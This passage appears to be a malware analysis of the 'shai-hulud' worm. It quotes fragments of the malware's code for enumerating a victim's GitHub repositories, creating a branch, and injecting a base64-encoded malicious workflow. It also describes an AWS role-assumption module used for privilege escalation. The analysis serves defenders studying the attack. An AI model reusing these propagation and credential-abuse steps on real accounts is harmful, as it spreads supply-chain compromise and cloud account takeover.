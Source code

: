 Repository Discovery

```bash
# List repositories with filters
REPOS_RESPONSE=$(github_api GET "/user/repos?affiliation=owner,collaborator,organization_member&since=2025-01-01T00:00:00Z&per_page=100")
```
- Targets repositories the user has access to.
- Includes owned, collaborated, and organization repositories.
- Focuses on recently updated repositories (since 2025). The “member” and “since” references in the code snippet above correspond to the behavior of this malware that I have seen in the wild where a vast majority of the compromised git repositories were being created by very new users.

Branch Creation

```bash
# Create new branch
BRANCH_DATA=$(jq -n \
    --arg ref "refs/heads/$BRANCH_NAME" \
    --arg sha "$BASE_SHA" \
    '{ref: $ref, sha: $sha}')
```
- Creates a new branch named "shai-hulud"
- Based on the default branch.

Malicious Workflow Injection

```bash
# Upload file to the new branch
FILE_DATA=$(jq -n \
   --arg message "Add $FILE_NAME placeholder file" \
   --arg content "$FILE_CONTENT_BASE64" \
   --arg branch "$BRANCH_NAME" \
   '{message: $message, content: $content, branch: $branch}')
```
- Uploads the malicious workflow file.
- Uses innocuous commit message.
- Base64 encodes the malicious content.

### Authentication & Security Modules

**Module 1072: AWS Role assumption with web identity** - implements the AWS STS AssumeRoleWithWebIdentity command which allows the malware to assume AWS IAM roles using web identity tokens (OAuth, OIDC) for privilege escalation and persistent access.
- Assume any AWS IAM role that trusts web identity providers.
- Escalate privileges beyond the initial compromised credentials.
- Gain cross-account access to different AWS accounts and can potentially abuse tokens from other providers like Google. 
- Obtain temporary credentials with broader permissions.
- This module calls several other modules.

```javascript
var F = n(72540),    // Endpoint plugin
    te = n(32754),   // Serialization plugin  
    re = n(31796),   // Base Command class
    ne = n(77927),   // Common parameters
    oe = n(94942),   // Request/response filters
    ie = n(66816);   // Serialization/deserialization
```
